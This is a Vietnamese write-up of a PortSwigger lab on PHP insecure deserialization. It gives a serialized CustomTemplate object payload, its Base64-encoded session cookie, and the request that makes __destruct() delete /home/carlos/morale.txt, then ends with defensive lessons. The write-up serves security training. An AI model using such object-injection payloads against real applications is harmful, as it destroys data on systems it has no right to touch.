




# Write-up: Arbitrary object injection in PHP

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng PHP, nơi cookie `session` chứa dữ liệu serialized được xử lý mà không kiểm tra tính toàn vẹn. Bằng cách phân tích source code của `CustomTemplate.php`, kẻ tấn công tạo một đối tượng `CustomTemplate` với thuộc tính `lock_file_path` trỏ đến `/home/carlos/morale.txt`, tận dụng magic method `__destruct()` để xóa tệp khi object bị hủy, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách tạo đối tượng `CustomTemplate` serialized với `lock_file_path` trỏ đến `/home/carlos/morale.txt`, kích hoạt xóa tệp thông qua `__destruct()`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và quan sát trong Burp Proxy HTTP history, request tới source code:  
  
  ```
  GET /libs/CustomTemplate.php~ HTTP/2
  Host: 0a8h006g07hi8901c0de056700fg00dc.web-security-academy.net
  ```  
- **Phản hồi**: Lộ source code:  
  ```php
  <?php

  class CustomTemplate {
      private $template_file_path;
      private $lock_file_path;

      public function __construct($template_file_path) {
          $this->template_file_path = $template_file_path;
          $this->lock_file_path = $template_file_path . ".lock";
      }

      private function isTemplateLocked() {
          return file_exists($this->lock_file_path);
      }

      public function getTemplate() {
          return file_get_contents($this->template_file_path);
      }

      public function saveTemplate($template) {
          if (!isTemplateLocked()) {  // thiếu $this-> trước isTemplateLocked()
              if (file_put_contents($this->lock_file_path, "") === false) {
                  throw new Exception("Could not write to " . $this->lock_file_path);
              }
              if (file_put_contents($this->template_file_path, $template) === false) {
                  throw new Exception("Could not write to " . $this->template_file_path);
              }
          }
      }

      function __destruct() {
          // Carlos thought this would be a good idea
          if (file_exists($this->lock_file_path)) {
              unlink($this->lock_file_path);
          }
      }
  }

  ?>
  ```  
- **Phân tích**:  
  - Cookie `session` chứa dữ liệu serialized, được unserialize khi xử lý request.  
  - Magic method `__destruct()` trong `CustomTemplate` gọi `unlink($this->lock_file_path)` khi object bị hủy, xóa tệp tại đường dẫn `$lock_file_path`.  
  - Nếu attacker gán `$lock_file_path = "/home/carlos/morale.txt"`, tệp `/home/carlos/morale.txt` sẽ bị xóa khi object được unserialize và hủy.
2. **Kiểm tra lỗ hổng Insecure Deserialization**  
- **Ý tưởng khai thác**:  
  - Tạo đối tượng `CustomTemplate` serialized với `lock_file_path` trỏ đến `/home/carlos/morale.txt`.  
  - Khi server unserialize cookie, object `CustomTemplate` được tạo, và khi bị hủy, `__destruct()` gọi `unlink("/home/carlos/morale.txt")`, xóa tệp.  
- **Payload**:  
  ```php
  O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
  ```  
- **Giải thích payload**:  
  - Tạo đối tượng `CustomTemplate` với `lock_file_path` là `/home/carlos/morale.txt`.  
  - Khi unserialize, `__destruct()` chạy và xóa tệp `/home/carlos/morale.txt`:  
      

3. **Khai thác (Exploitation)**  
- Đăng nhập với tài khoản `wiener:peter`, lấy cookie `session` từ Burp Proxy.  
- Mã hóa payload thành Base64:  
  ```
  TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
  ```  
- Thay thế cookie `session` trong request:  
  ```
  GET / HTTP/2
  Host: 0a8h006g07hi8901c0de056700fg00dc.web-security-academy.net
  Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
  ```  
- Gửi request qua Burp Repeater:  
  - Server unserialize cookie, tạo object `CustomTemplate`, và khi object bị hủy, `__destruct()` xóa tệp `/home/carlos/morale.txt`:  
      
- **Ý tưởng payload**:  
  - Tạo đối tượng `CustomTemplate` serialized với `lock_file_path` trỏ đến `/home/carlos/morale.txt`, tận dụng `__destruct()` để xóa tệp.  
- **Kết quả**:  
  - Lab xác nhận tệp `/home/carlos/morale.txt` bị xóa, hoàn thành lab:  
      

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** trong PHP bằng cách tạo đối tượng `CustomTemplate` serialized, tận dụng magic method `__destruct()` để thực thi lệnh xóa tệp (`unlink`).  
- Nhận thức tầm quan trọng của việc tránh deserialize dữ liệu người dùng, sử dụng digital signature để kiểm tra tính toàn vẹn, kiểm tra nghiêm ngặt kiểu dữ liệu, hoặc thay thế bằng định dạng an toàn như JSON để ngăn chặn các cuộc tấn công deserialization.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Insecure Deserialization** trong PHP, nhấn mạnh tầm quan trọng của việc bảo vệ dữ liệu serialized và sử dụng các biện pháp kiểm tra an toàn để ngăn chặn thực thi lệnh tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*